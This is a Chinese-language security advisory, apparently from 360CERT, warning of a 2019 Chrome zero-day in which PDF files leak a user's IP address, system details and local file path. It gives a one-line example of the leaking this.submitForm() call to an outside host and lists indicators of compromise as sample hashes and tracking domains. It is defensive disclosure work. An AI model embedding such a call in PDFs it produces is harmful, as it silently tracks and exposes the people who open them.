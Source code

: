 ```yaml
---
id: 70a8303ad69baa1d578d67eef9ec604f
title: Chrome中通过打开pdf文件泄露信息0day预警
tags: 
  - 安全资讯
  - 360CERT
---
```


# Chrome中通过打开pdf文件泄露信息0day预警

0x00 漏洞背景
---------


北京时间2月28日，360CERT监控到edgepot.io发布的一篇博客公开披露了Chrome中通过打开pdf文件泄露信息的0day漏洞，漏洞成功利用可导致目标用户IP地址等信息被泄漏，已经出现多个利用该漏洞的野外样本。该漏洞危害较为严重，影响较大。


0x01 漏洞详情
---------


漏洞的根源在于`this.submitForm()`这个PDF Javascript API。像`this.submitForm('http://google.com/test')`这样一个简单的调用就会导致Chrome把个人信息发送到google.com。
可能被泄露的信息包括：


1.用户的公共IP地址。


2.操作系统，Chrome版本等(在HTTP POST header中)。


3.用户计算机上PDF文件的完整路径(在HTTP POST payload中)。


![enter description here](https://p403.ssl.qhimgs4.com/t013ece0a357dfa70de.png)


0x02 安全建议
---------


虽然信息泄露漏洞并不能直接实现代码执行，但是仍然存在不小的危害。建议用户使用其它PDF阅读器在本地查看收到的PDF文档，直到Chrome修复此问题(Chrome称会在4月底修复)，或者在Chrome中打开PDF文档时断开网络连接。


0x03 相关IOC
----------


恶意样本：


2dd6ade4d0d4dc8224b28f8819b1c49bb7ae4025933e737ac8069c496d88bb43
286ed6d0261aed1115e06e2e8cf0af840297241e9dc9494a496a2c8b75457749
a21a4fcc75cd20a0965f1673b98c0dd688711c40cbabf92a5e5cd1f31a7ac684
1d151793f521419c1470079a37b1e37b8b59a5b69a5506f1d0dbee6f3995b25d
0c3e8efd667f7ff1549bfd2a4498105cb2607314d73b7105f4c1d747d7341090
fb56efe75f3b4509d5a2e0655536d9dab121798d92b8660121bd4691265a87e3
622624d6f161b7d2fa7859d46792dd6bb49024b432b04106b1818510a2037689
0cc1234c981806dd22e0e98e4be002e8df8d285b055e7f891ff8e91af59aee1e
2dd6ade4d0d4dc8224b28f8819b1c49bb7ae4025933e737ac8069c496d88bb43


域名：


readnotify.com


<http://zuxjk0dftoamimorjl9dfhr44vap3fr7ovgi76w.burpcollaborator.net>


0x04 时间线
--------


**2019-02-26** edgepot.io博客文章发布


**2019-02-28** 360CERT发布预警


0x05 参考链接
---------


1. [EdgeSpot detects PDF zero-day samples tracking users who use Google Chrome as local PDF viewer Summary](https://blog.edgespot.io/2019/02/edgespot-detects-pdf-zero-day-samples.html)


